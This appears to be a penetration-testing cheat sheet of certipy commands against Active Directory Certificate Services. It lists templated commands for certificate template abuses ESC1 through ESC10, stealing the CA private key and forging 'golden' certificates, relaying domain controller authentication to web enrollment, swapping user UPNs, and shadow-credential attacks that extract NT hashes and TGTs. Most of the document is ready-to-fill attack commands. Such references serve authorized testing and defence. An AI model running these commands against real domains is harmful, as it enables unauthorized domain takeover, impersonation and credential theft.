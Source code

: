 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential

## certipy - list certificate templates
#plateform/linux #target/remote #cat/RECON
```
certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> [-stdout]
```

## certipy - request certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority>
```

## certipy - extract cert from pfx
#plateform/linux #target/remote #cat/RECON
```
certipy cert -pfx <pfx> -nokey -out <file>.crt
```

## certipy - extract key from pfx
#plateform/linux #target/remote #cat/RECON
```
certipy cert -pfx <pfx> -nocert -out <file>.key
```

## certipy - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file>  -domain <domain> -username <user> -dc-ip <ip>
```

## certipy - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc-ip> -ldap-shell
```

## certipy - Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -backup -ca <certificate-authority> -target-ip <ca-ip>
```

## certipy - Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain> -crl ldap://<dc-ip>:389
```

## certipy - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -upn <targeted-user>@<domain>
```

## certipy - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## certipy - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old
```

## certipy - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn>
```

## certipy - relay domain controller authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn> -template 'DomainController'
```

## certipy - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain> -p '<password>' -user <targeted-user> -upn <administrator-user>
```

## certipy - Get NT hash - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain> -p '<password>' -account <targeted-user>
```